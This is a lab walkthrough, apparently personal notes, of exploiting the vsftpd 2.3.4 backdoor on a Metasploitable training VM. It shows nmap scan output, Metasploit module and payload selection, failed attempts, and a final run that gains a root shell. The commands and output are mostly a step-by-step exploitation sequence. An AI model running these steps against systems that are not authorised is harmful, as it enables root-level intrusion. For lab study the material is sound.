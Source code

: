 **Target:** Metasploitable

**Address:** 172.16.0.22

 1.  
```
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 64 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      syn-ack ttl 64 Linux telnetd
25/tcp   open  smtp        syn-ack ttl 64 Postfix smtpd
53/tcp   open  domain      syn-ack ttl 64 ISC BIND 9.4.2
80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        syn-ack ttl 64 netkit-rsh rexecd
513/tcp  open  login       syn-ack ttl 64 OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped  syn-ack ttl 64
1099/tcp open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
1524/tcp open  bindshell   syn-ack ttl 64 Metasploitable root shell
2049/tcp open  nfs         syn-ack ttl 64 2-4 (RPC #100003)
2121/tcp open  ftp         syn-ack ttl 64 ProFTPD 1.3.1
3306/tcp open  mysql       syn-ack ttl 64 MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  syn-ack ttl 64 PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         syn-ack ttl 64 VNC (protocol 3.3)
6000/tcp open  X11         syn-ack ttl 64 (access denied)
6667/tcp open  irc         syn-ack ttl 64 UnrealIRCd
8009/tcp open  ajp13       syn-ack ttl 64 Apache Jserv (Protocol v1.3)
8180/tcp open  http        syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
```

 - VSFTPD is running on port 21.

 8. There is one exploit module.

```
msf6 > search type:exploit name:vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

 13. There is one payload ```payload/cmd/unix/interact```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection
```

 14. Exploit failed to make session

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.16.0.22:21 - The port used by the backdoor bind listener is already open
[-] 172.16.0.22:21 - The service on port 6200 does not appear to be a shell
[*] Exploit completed, but no session was created.
```

6200 Backdoor?

```https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html```

```https://charlesreid1.com/wiki/Metasploitable/VSFTP#Opening_Backdoor```

```
─$ sudo nmap -sS 172.16.0.22 -p 6200 -vvv
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-26 21:00 EDT
Initiating ARP Ping Scan at 21:00
Scanning 172.16.0.22 [1 port]
Completed ARP Ping Scan at 21:00, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:00
Completed Parallel DNS resolution of 1 host. at 21:00, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:00
Scanning 172.16.0.22 [1 port]
Discovered open port 6200/tcp on 172.16.0.22
Completed SYN Stealth Scan at 21:00, 0.04s elapsed (1 total ports)
Nmap scan report for 172.16.0.22
Host is up, received arp-response (0.00046s latency).
Scanned at 2022-10-26 21:00:23 EDT for 0s

PORT     STATE SERVICE REASON
6200/tcp open  lm-x    syn-ack ttl 64
MAC Address: 08:00:27:1F:65:3D (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
           Raw packets sent: 2 (72B) | Rcvd: 2 (72B)
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ telnet 172.16.0.22 6200
Trying 172.16.0.22...
Connected to 172.16.0.22.
Escape character is '^]'.
```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.16.0.22:21 - The port used by the backdoor bind listener is already open
[-] 172.16.0.22:21 - The service on port 6200 does not appear to be a shell
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Still no luck

**Got into the shell forgot to set the payload**


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set payload 0
payload => cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.16.0.22:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.16.0.22:21 - USER: 331 Please specify the password.
[+] 172.16.0.22:21 - Backdoor service has been spawned, handling...
[+] 172.16.0.22:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
ls
[*] Command shell session 1 opened (172.16.0.24:45667 -> 172.16.0.22:6200) at 2022-11-01 15:42:09 -0400


